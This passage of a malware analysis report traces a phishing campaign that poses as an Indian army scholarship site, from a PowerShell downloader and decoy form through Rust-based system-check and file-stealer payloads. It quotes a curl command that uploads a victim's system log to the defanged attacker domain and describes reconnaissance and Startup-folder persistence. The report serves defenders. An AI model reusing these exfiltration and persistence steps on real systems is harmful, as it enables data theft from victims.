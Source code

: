 Fig. 3 – Victimology
PowerShell Stage
The expanded URL points to a domain named awesscholarship[.]in to fetch and save the PowerShell script (file.ps1) in the Documents folder. Before checking out this script, the domain name looks like a scholarship for “Army Welfare Education Society”. The legitimate domain for this organization is scholarship[.]awesindia[.]com, where similar phishing campaigns have been observed in the past. Opening this fake domain page redirects it to the official AWES page showing an official alert notice as shown below.

Fig. 4 – Official notice of fake website
PowerShell script begins with setting up URL paths for downloading the subsequent stage payloads along with the lure document. Target paths for downloading and uploading files are set up, where three functions are defined primarily for those features.

Fig. 5 – PowerShell script
The X and Y functions are used to log messages to a file and download a file from the given URL to the target path & log it, respectively. The target location is the default Documents directory where a new folder named Downloads is created to drop the decoy PDF file and an archive beside the folder.

Fig. 6 – PowerShell script (contd.)
Once the decoy is opened, the archive file is extracted which contains a single file without any extension. This is renamed to add the EXE extension and executed. Lastly, the Z function is used to upload the log file to server using curl command and then delete the logs recorded.

Fig. 7 – Log file uploaded
Meanwhile, the decoy file opened is a form for a statement of Immovable Property Return where the service is mentioned as ‘Indian Administrative Service’. Multiple similar forms on various Indian government portals are available in the public domain. However, this blank IPR form is available on DoPT’s (Department of Personnel & Training) website that falls under India’s Ministry of Personnel Public Grievances and Pensions. Note that this is nowhere related to the ESSA – Education scholarship scheme of the Army Personal application form.

Fig. 8 – Decoy: IPR form for IAS officers (Oct’23)
Downloader: System Check Stage
The EXE payload turns out to be a Rust-compiled binary that checks basic system information as found in the PDB path – ‘syscheck.pdb’. After demangling the Rust function names using an IDA Pro plugin, we can see a lot of write and command execute functions being called. It retrieves information by using:

Domain ifconfig[.]me to fetch the IP address
A WMIC command to fetch active drives present on the victim system – “wmic logicaldisk get caption”.


Fig. 9 – System check logs
These logs are written into a file named ‘MySystem.txt’ in ProgramData\syscheck directory and uploaded to the same domain as:
“curl -F TT=@C:\ProgramData\syscheck\MySystem.txt hxxps://awesscholarship[.in/upload/upload.php” 

Fig. 10 – URL to download the next stage
Then another archive named file1.zip is downloaded from the same fake domain and extracted. It is renamed to ‘MySystem.exe’ and executed. Lastly, persistence for this final payload is created through the Startup directory.

Fig. 11 – Persistence via Startup
Stealer: Final Stage
The final payload is another rust-based malware that steals files, collects system name & IP, and uploads individual files along with the logs. It doesn’t have built-in features of sophisticated info-stealers like stealing from web browsers, Discord/Steam or cryptocurrency wallets. Multiple versions of this stealer were found in this campaign with compilation timestamps ranging from September till date (December) and they have had a significantly lower detection rate on Virus Total.
